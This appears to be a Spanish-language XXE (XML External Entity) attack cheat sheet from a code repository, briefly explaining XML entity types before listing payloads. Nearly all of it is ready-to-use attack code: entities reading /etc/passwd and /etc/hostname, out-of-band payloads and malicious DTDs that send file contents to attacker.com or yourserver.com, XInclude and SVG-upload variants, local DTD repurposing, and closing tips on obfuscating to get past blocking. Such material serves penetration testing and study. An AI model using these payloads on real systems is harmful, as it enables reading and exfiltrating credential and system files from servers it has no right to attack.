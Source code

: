 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```

---

## **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> 

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## **Normal XXE (Local File Disclosure)**

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### **Payloads:**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe;]>  

<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

### **Estrctura base**

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
	<product>
		1
	</product>
</root>

```

## **Malicious DTD Files**

### **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### **Malicious DTD 2 - Direct File Read:** 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## **XInclude Injection**

### **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## **XXE via Image File Upload**

### **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY exfil SYSTEM 'https://yourserver.com/?data=%file;'>">
    %eval;
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <image xlink:href="&exfil;" xmlns:xlink="http://www.w3.org/1999/xlink"/>
</svg>
```

---

## **XXE by Repurposing Local DTD**

### **Payload:**
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; exfil SYSTEM &#x27;file:///noexisto/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;exfil;
'>
%local_dtd;
]>
```

---

## **Consejos Útiles:**
- **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---
